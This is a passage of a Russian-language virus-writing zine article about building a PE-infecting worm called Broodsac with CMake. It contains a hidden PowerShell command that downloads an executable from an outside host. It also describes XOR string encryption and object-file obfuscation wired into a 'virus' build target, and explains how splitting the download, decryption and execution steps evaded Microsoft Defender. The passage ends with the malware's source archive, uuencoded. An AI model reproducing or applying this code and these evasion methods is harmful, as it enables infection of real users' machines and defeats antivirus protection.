-payload_command "sheep"
-download_program "\\??\\C:\\Windows\\System32\\WindowsPowerShell\
\\v1.0\\powershell.exe"
-download_command "powershell -ExecutionPolicy bypass \
-WindowStyle hidden \
-Command \"(New-Object System.Net.WebClient).DownloadFile(\
'https://amethyst.systems/sheep.dat', 'C:\\ProgramData\\sheep.exe')\""
-output "${CMAKE_CURRENT_BINARY_DIR}/$<CONFIG>/infection_strings.asm"
VERBATIM)Powershell был выбран просто потому, что с ним проще работать, чем со старым CMD. Был создан простой скрипт, который преобразовывал многие строки, которые нам нужно было зашифровать, выбирал случайный ключ, а затем выполнял традиционное XOR-шифрование строки. Скрипт создаёт файл включения NASM и сохраняет его в каталоге бинарных файлов системы сборки — по сути, универсальный каталог для любых созданных артефактов. Мы затем включаем этот каталог в директивы ассемблера, чтобы наши assembly-файлы могли его видеть:
Код:
target_include_directories(infection_asm_64 PUBLIC
"${CMAKE_CURRENT_SOURCE_DIR}"
"${CMAKE_CURRENT_BINARY_DIR}/$<CONFIG>")Как творцы, чей холст — сомнительный машинный код, мы, без сомнения, можем увидеть привлекательность и возможности, которые это даёт. Если вы действительно чувствуете себя дерзко, вы даже можете мутировать объекты COFF и включать их в определенные конфигурации библиотек через CMake! Изменение объектов напрямую будет выглядеть примерно так:
Код:
add_library(obfuscateme STATIC obfu.c)
add_custom_command(TARGET obfuscateme
PRE_LINK COMMAND obfuscate ARGS
"${CMAKE_CURRENT_BINARY_DIR}/obfuscateme.dir/$<CONFIG>/obfu.obj")
add_executable(virus main.c)
target_link_libraries(virus obfuscateme)Эти простые четыре строки компилируют набор функций, которые нужно обфусцировать, вызывают обфускатор для нашего скомпилированного объектного файла, который затем снова включается в процесс сборки на этапе линковки, а затем добавляют обфусцированный код в качестве зависимости библиотеки основного вируса. Каждый раз, когда цель вируса вызывается для компиляции, функциональность будет обфусцирована и автоматически включена в наш код. По сути, если вы можете вызвать внешнюю команду для генерации чего-либо как часть процесса сборки, возможности интеграции в вашу программу практически не ограничены.
Несмотря на то, что возможности этих функций кажутся весьма интересными, наша попытка скрыть сигнатуры, на которые, как мы думали, мы попадали, оказалась недостаточной. Видите ли, как показывает исследование сигнатур Defender[5], существует несколько типов сигнатур, с которыми приходится иметь дело, и, согласно DefenderCheck[6] и чуть более продвинутому ThreatCheck[7], я не наталкивался на статические сигнатуры. Действительно, копание в недрах базы данных сигнатур обнаруженных угроз оказалось относительно бесплодным в поисках подсказок о том, как их обойти — существовал алгоритм статической сигнатуры, который был не совсем ясен по поводу того, как он сканируется, и, что более важно, нечто под названием "NID."
NID в данном случае, по-видимому, идентифицирует что-то внутри Network Realtime Inspection Service.[8] Вероятно, это какая-то метаданные о конкретном поведении. Это означает, что наши сигнатуры, вероятно, срабатывали на поведенческую сигнатуру! Как мы могли бы это обойти?
Наивно, не сталкиваясь с этим ранее, мы бросили на стену кучу случайных решений, чтобы увидеть, что сработает. Hell's Gate? Сервис Network Realtime Inspection не был EDR, так что, естественно, это не сработало. Не говоря уже о том, что с уникальной позицией Microsoft на ландшафте Windows (они являются хозяевами подземелья), попытки обойти EDR просто недостаточны. Но ради полноты потенциальных уклонений это было оставлено в полезной нагрузке Broodsac. (Реализация Hell's Gate состоит из прямых системных вызовов, а не косвенных, так что над этим ещё предстоит поработать.)
По сути, поведенческая сигнатура полагается на цепочку определённых действий, чтобы объявить что-то потенциально вредоносным. Давайте рассмотрим, что, по сути, делает наша полезная нагрузка, что могло бы быть отмечено как потенциально вредоносное:
- загрузка исполняемого файла
- возможно, дешифровка исполняемого файла
- выполнение исполняемого файла
Честно говоря, я не вижу в этом ничего плохого, но, видимо, Microsoft не согласен!
Забавная особенность поведенческого анализа заключается в том, что он полагается на идентификацию поведения в данном контексте выполнения, а не на сумму его выполнений. Чтобы поведенческий анализ был успешным, негативные действия, которые происходят в комбинации, должны происходить в одном и том же контексте выполнения.
Если мы разделим три вышеупомянутые задачи на три отдельных контекста выполнения — загрузка, дешифровка и выполнение — будет ли это достаточно, чтобы обойти поведенческое обнаружение?
Да! Хотя я не проводил обратную разработку NisSrv.exe, чтобы понять, почему мне удалось обойти защиту, теория о разделении задач между контекстами выполнения оказалась успешной в обходе Defender.
Таким образом, полезная нагрузка эволюционировала в интересную многоэтапную полезную нагрузку. Пользователю придется запускать зараженный исполняемый файл несколько раз, прежде чем появится овечка. Это также принесло дополнительное преимущество в плане скрытности. Откуда берётся овечка? Почему это происходит каждый раз, когда я запускаю эту программу? Загадка! Но мило. Таким образом, Broodsac оправдывает своё название многослойного червя, в честь которого он был назван, зелёно-полосатого бродсака.[9]
Наш дзен-сад ухожен и готов для того, чтобы им поделились, чтобы другие могли медитировать и размышлять о своих собственных садах. Для этой медитации различные кодовые объекты, содержащиеся в архиве, прилагаемом к этой статье, были аннотированы комментариями, объясняющими отдельные области кода и их назначение. Естественно, сложность динозавра, которым является формат PE, сопровождается раздражающими, отвратительными трюками и привычками, из-за которых в первую очередь стыдно за свой код. Прошу прощения от имени Марка Збиковски.
--[ 6. Заключение
Нет никаких сомнений в том, что странные аномалии в разработке, которые вы видите в диких образцах вредоносного ПО, являются побочным продуктом какой-то системы сборки. Использование SmokeLoader зашифрованных функций, безусловно, не является функцией компилятора MSVC[10]. Но даже грубая и быстрая переработка C-файла, сброшенного в каталог для компиляции в IDE, технически будет считаться системой сборки. В конце концов, Visual Studio IDE — это всего лишь оболочка для системы сборки MSVC. Но как вирусописатели, мы, в конечном счете, всё ещё инженеры. Мы стремимся к красивому решению проблемы. Мы в конечном итоге хотим создать свой собственный маленький дзен-сад, за которым можно ухаживать.
Прелесть CMake, в частности, заключается в том, что он кроссплатформенный. Таким образом, если у вас есть код — например, движок обфускации, — который может быть использован на нескольких платформах, CMake может сделать сборку проекта на каждой платформе относительно безболезненной. Точно так же, как CMake управляет MSVC, он может управлять и сложной средой сборки, такой как GNU Make. Поддерживаются и многие другие цели сборки, но не все так же полно, как MSVC и GNU. Экзотические цели могут вызвать некоторые трудности.
Надеюсь, мне удалось убедительно аргументировать включение систем сборки в разработку вашей полезной нагрузки. Хотя мы, безусловно, можем обойтись поверхностными shell-скриптами, разве не было бы замечательно углубиться в суть машины на уровне компоновщика? Разработчики Linux имеют эту привилегию, почему бы не освободить этот доступ в Windows? В конце концов, мы все фактически демоны наших целевых операционных систем — мы прячемся на самом низком уровне машины, и нам это здесь нравится.
--[ 7. Благодарности
0x6d6e647a за редактирование, dc949 за семейную поддержку, slop pit за мемы и оживленные обсуждения.
--[ 8. Ссылки
[1]: 40Hex #8: An Introduction to Nonoverwriting Virii, Part II: EXE
Infectors,
https://amethyst.systems/zines/40hex8/40HEX-8.007.txt
[2]: 29A #6: W32.Shrug, by roy g biv,
https://amethyst.systems/zines/29a6/29A-6.615.txt
[3]: 29A #2: PE infection under Win32,
https://amethyst.systems/zines/29a2/29A-2.3_1.txt
[4]: GitHub - Adrianotiger/desktopPet: Remembering the lovely eSheep (stray sheep) from 1995 -
[5]: experiments/windows-defender at master · commial/experiments
/VDM
[6]: GitHub - matterpreter/DefenderCheck: Identifies the bytes that Microsoft Defender flags on.
[7]: GitHub - rasta-mouse/ThreatCheck: Identifies the bytes that Microsoft Defender / AMSI Consumer flags on.
[8]: https://techcommunity.microsoft.com/t5
/security-compliance-and-identity
/enhancements-to-behavior-monitoring-and-network-inspection
/ba-p/247706
[9]: Leucochloridium paradoxum - Wikipedia
[10]: Cybersecurity Blog | SentinelOne NL
/going-deep-a-guide-to-reversing-smoke-loader-malware/,
see "Decoding the Buffer"
--[ 9. Артефакты (Данный артифакт уже распакован во вложении)
Код:
begin 644 broodsac.tar.gz
M'XL(`````````^P]:W?;-K+][%^!9KNI9$N.93O>['7L<V1)KG6O+/E(<K*]
MV5P>2H0L-A2I)2D[WC;__<[@10"D'G;<;;MK?6@L<#`8S`SF";&C.(J\Q!V_
M:ERZGVC'3])D-_V<?O.4GSWX'!T>XK^UO[S>T__%3^WUT>MO:H>O_[)_N'^X
M]_KH&QC9.]C_ANP]*15+/HLD=6-"OIDOXGE`E\.M>_X'_8QG('9GYH?^;#%S
M8OJ/A1]3K_2NU1^T>UURL%M[7=[:FL?13W2<ED9"6TB#U`>73A?^4]Y*:%IJ
M7-;_I^5<#MXUG/YU=]B^;#F=]EF_WO^1O+A<!*D_G,;4]:CWW=OOWC9ZW?/V
M#__5I*/%S:GXYT5Y*YJG?A26SOJ]7G-0;SC-UMGU#^3%<!&')`J)AW`W?GA#
M)E%,S@0E+TCO_)S3H":VN^>MQK!^UFD-R(L7I%%O7+3(8-AO=P'=@*8DG5)`
M$G@T-G"1-")^.(&-5F#!X)[$-*"W;IB2.S^=$I,P('C+]3PG68P\8-DXC>+[
MTG<_7_5[_PV+.X/>=;_1<IKM_I=7'"?L[96;S%X=[)<?-_'H4"Q)/]/Q(G5'
M`<T$\K[=/=@G,]</=\?E+5#I&YHZ@1]^@O^,8C?V:9(!*[P.X'5@GCG`%O(G
MQ!)%>8L0KBYS-YV6ZF>#7N=ZV'*NZL,+4LC\;J]_6>^T_[=E3>W6A^UWJR86
M#2*.)(U!`4K]UE6GWFB1%W__^PO\#_Y3+/WO?BX:__("D0DFC:/9W`^HX]$)
MG`)D@L:IJ^NS3KL!P,02OSFDX3Y9L28-/7]2*F_]UH=>^\B=ON*J\ZNLL=+^
MU_9?'[S6[/]^#>S_P0&X@6?[_R_X_,D/Q\'"H^1MDGI^F.Y.3[?,L<@<NO-#
M+[I+<H,IC</`FCT-HM%/.+;U:IM<^N,X2J))2J9N2A,RIQ$PE`3^)TH6"4DB
M-,OWQ(O"[U/"#B,E]);&]^D4C;X?XG,_)E/T(W%2P1,X6H!MIL2-*=CJQ`]\
M"L;:#3V23'&LH8#).)K?(X*$RC&T]G,_24@TF1!7(\^CMV3[U59Z/Z=`!MJ<
MQ3@EY]>=CG/5.G,ZS;[3K`_K6S\C!=>='GB5#@UOTNDQ#ISU>IU6O4O::$O<
MP/\G]=CX1;W;[(`;2BZ`OH"RL4Y[,'1:W2%XR7;8B5RO%P-EEY&W"%@HE@>Z
MI#-P%VO!U.(NVK,B\*MWO7:3M,(TOF^'5W%T`_Q+C`T,IHL4)!U:C^4^Q%/N
MU]NPQR]Y%E7(]E5N\'BKD+7RL</,)=\)9_$R/G7`NW&:EC-I*4P!AW18SIYF
M$)RY"37&&,NN(E!X,<PU8`""[DW:,_=&@E]WVXU>L^6(P.-\$02`K^O.E@#@
M2A8`PWP>N#>2K/>]?I,@`QK10A'`!H=!T@X]^EF,+4+8%?]3\-!FP86;3/4=
MLP\7B#:@3]:8,.#1`F,#C8]M($YX8TK'GP:+F?[XB_CR936=','0G]$FV(I!
MZL[F.A9.!/*!>NW9/(K3Q,)KRZH.]-XR43<B(/ES:L!=N>EXV@XA%IPQF+S"
MG$?QG;M"H08TOO7'=.C>+`-(`?-8//RR7.75D2EZF#\ZCG/EW@?`"."3RUFX
[email protected]>[#LI24`EC^7(&QCP`.9#[2.NK\T"I,`/L-[Z()GSOP_VCU<\/3K4*+J-
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
M2R=_0X`O!X'C<Q/Z$W^,[UR5>C"Z1Y,[email protected]=IO;;(HE+_-DB2-V0
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
